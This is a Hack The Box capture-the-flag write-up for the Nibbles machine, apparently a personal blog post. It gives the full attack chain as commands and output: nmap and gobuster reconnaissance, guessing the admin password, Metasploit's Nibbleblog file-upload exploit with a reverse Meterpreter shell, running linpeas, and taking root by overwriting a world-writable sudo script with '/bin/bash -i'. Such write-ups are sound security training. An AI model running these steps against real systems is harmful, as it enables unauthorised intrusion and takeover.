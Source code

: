 ```yaml
---
author: Jean Chaput
pubDatetime: 2024-10-29T9:39:00Z
title: HTB Nibbles Box
postSlug: htb-nibbles
featured: false
draft: false
tags:
  - htb
  - box
  - write-up
description:
  Write-up for Nibbles Box on HTB
---
```


We start our exploration by scanning the target:

```bash
nmap -sV -sC -p- "10.10.10.75" -oA nmap_scan
```

We got the following output:

```markdown
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-21 18:11 CEST
Nmap scan report for 10.10.10.75
Host is up (0.10s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 195.67 seconds
```

Since there is an `HTTP` server running on port 80, let's navigate to `http://10.10.10.75/`, there is not a lot to see here so let's inspect the source code by hitting `Ctrl + U`.

At the bottom, we can see the following:
```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Seems to be an interesting page to navigate, let's see if it exists:

![Homepage](@assets/images/htb-nibbles/homepage.png)

We can see in the bottom-right corner `Powered by Nibbleblog` and by searching the web, we can find the [Nibbleblog CMS](https://github.com/dignajar/nibbleblog).

From here, we can look to the different links on the page and nothing seems to be interesting. We can try to enumerate sub directories or look into the CMS to understand how folders and files are structured.

```bash
gobuster dir -w /usr/share/wfuzz/general/common.txt -u http://$TARGET/nibbleblog/
```

This gives the following output :

```markdown
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin   (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/content (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
Progress: 951 / 952 (99.89%)
===============================================================
Finished
===============================================================
```

By navigating to `/content/`, we find the `/private/` folder and inside we discover the following `user.xml` file :

```xml
<users>
	<user username="admin">
		<id type="integer">0</id>
		<session_fail_count type="integer">0</session_fail_count>
		<session_date type="integer">1514544131</session_date>
	</user>
	<blacklist type="string" ip="10.10.10.1">
		<date type="integer">1512964659</date>
		<fail_count type="integer">1</fail_count>
	</blacklist>
</users>
```

So now we know the admin user login with the username `admin`.

By looking to the CMS files and folders, we can see that there should be an `/admin.php` page which could be the login page for the administration panel.

This page is effectively here and we can see a login form that we can use with our `admin` username that we found earlier. Since we don't have the password we could try to use a dictionary attack with `Hydra`, but it seems that some blacklisting mechanisms are used there to prevent this kind of attack.

Since it is an **easy** box on Hack the Box, let's simply try the name of the box as the password : `nibbles` (not guessing here, just a habit from Hack the Box).

It worked ! While in, let's check what is the running version of Nibbleblog. We can do this by going to the `Settings` page and scrolling down on the page to reveal `Nibbleblog 4.0.3 "Coffee" - Developed by Diego Najar`.

With this information, let's search for any known exploit :

```bash
searchsploit "nibbleblog 4.0.3"
```

This displays the following output :

```markdown
-------------------------------------------------------- ---------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)   | php/remote/38489.rb
-------------------------------------------------------- ---------------------
```

Let's run Metasploit :

```bash
msfconsole -q
```

In the `msfconsole`, we can run the following commands :

```bash
search nibbleblog
use exploit/multi/http/nibbleblog_file_upload
show options
set PASSWORD "nibbles"
set RHOSTS "10.10.10.75"
set TARGETURI "/nibbleblog"
set USERNAME "admin"
check
run
```

>  I used a Meterpreter payload for this one configured with my IP (VPN) and a listening port for the reverse TCP connection.

When we receive the reverse shell, we can directly try to identify who we are running our commands as:

```bash
getuid
```

This outputs : `Server username: nibbler`

Let's list the content in that user's home directory :

```bash
ls /home/nibbler
```

Here is the command output:

```markdown
Listing: /home/nibbler
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  0     fil   2017-12-29 11:29:56 +0100  .bash_history
040775/rwxrwxr-x  4096  dir   2017-12-11 04:04:04 +0100  .nano
100400/r--------  1855  fil   2017-12-11 04:07:21 +0100  personal.zip
100400/r--------  33    fil   2024-09-21 13:32:33 +0200  user.txt
```

And here we have our user flag. Now let's look for privilege escalation. 

I'll first start by getting the [LinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS) script on my machine (in another terminal):

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

And in Meterpreter :

```bash
upload linpeas.sh /tmp/linpeas.sh
shell
bash /tmp/linpeas.sh
```

Among the results we have, we can see the following output :

```markdown
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

This seems to be very interesting. In nibbler's home directory, we don't have the `personal` folder but we have a Zip file `personal.zip`. Let's unpack it :

```bash
unzip personal.zip
```

We can now see the permissions that we have on this file :

```bash
ls -al ~/personal/stuff
```

This gives us the following output :

```markdown
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

This file has the `777` permissions, which means read, write and execute for everyone. We already know that we can execute it as root without a password. Let's simply modify it :

```bash
echo "/bin/bash -i" > ~/personal/stuff/monitor.sh
```

And finally we run it :

```bash
sudo ~/personal/stuff/monitor.sh
```

We are now root on the machine and we can grab the root flag in `/root/root.txt`.